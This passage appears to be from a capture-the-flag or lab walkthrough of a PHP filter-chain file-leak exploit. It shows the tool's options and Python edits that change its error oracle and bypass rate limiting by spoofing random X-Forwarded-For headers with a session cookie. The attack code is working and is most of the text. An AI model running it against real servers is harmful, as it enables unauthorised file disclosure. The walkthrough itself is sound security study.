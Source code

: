 ```shell
  --target TARGET       URL on which you want to run the exploit.
  --file FILE           Path to the file you want to leak.
  --parameter PARAMETER
                        Parameter to exploit.
  --data DATA           Additionnal data that might be required. (ex : {"string":"value"})
  --headers HEADERS     Headers used by the request. (ex : {"Authorization":"Bearer [TOKEN]"})
  --verb VERB           HTTP verb to use POST(default),GET(~ 135 chars by default),PUT,DELETE
  --proxy PROXY         Proxy you would like to use to run the exploit. (ex : http://127.0.0.1:8080)
  --in_chain IN_CHAIN   Useful to bypass weak strpos configurations, adds the string in the chain. (ex : KEYWORD)
  --time_based_attack TIME_BASED_ATTACK
                        Exploits the oracle as a time base attack, can be improved. (ex : True)
  --delay DELAY         Set the delay in second between each request. (ex : 1, 0.1)
```

But! Before we fire up the script, let's take a step back.

**In a while ago, we found that the oracle is not HTTP status code 500, it's the "Not Allow" response output. So, we'll need to modify the script `core/requestor.py`'s function `error_oracle()`:**
```python
[...]
    def error_oracle(self, s):
        requ = self.req_with_response(s)
        if self.time_based_attack:
            return requ.elapsed.total_seconds() > ((self.time_based_attack/2)+0.01)
        
        isSuccess = True if 'Not allowed' not in requ.text else False
        return isSuccess
        # return requ.status_code == 500
```

**Then, since we'll also need to bypass the rate limiting, and the page requires our PHP session cookie, let's modify function `req_with_response()`:**
```python
[...]
import random
import string
[...]
    def req_with_response(self, s):
        if self.delay > 0:
            time.sleep(self.delay)
        data = {
            self.parameter: f'php://filter/{s}{self.in_chain}/resource={self.file_to_leak}'
        }
        merged_data = {key: value for (key, value) in (data.items() | self.data.items())}
        try:
            if self.verb == Verb.GET:
                requ = self.session.get(self.target, params=merged_data)
                return requ
            elif self.verb == Verb.PUT:
                requ = self.session.put(self.target, data=merged_data)
                return requ
            elif self.verb == Verb.DELETE:
                requ = self.session.delete(self.target, data=merged_data)
                return requ
            elif self.verb == Verb.POST:
                # bypass rate limiting
                header = {
                    'Cookie': 'PHPSESSID=<YOUR_OWN_PHP_SESSION_COOKIE_VALUE>',
                    'X-Forwarded-For': ''.join(random.choice(string.ascii_lowercase) for i in range(10))
                }

                requ = self.session.post(self.target, data=merged_data, headers=header)
```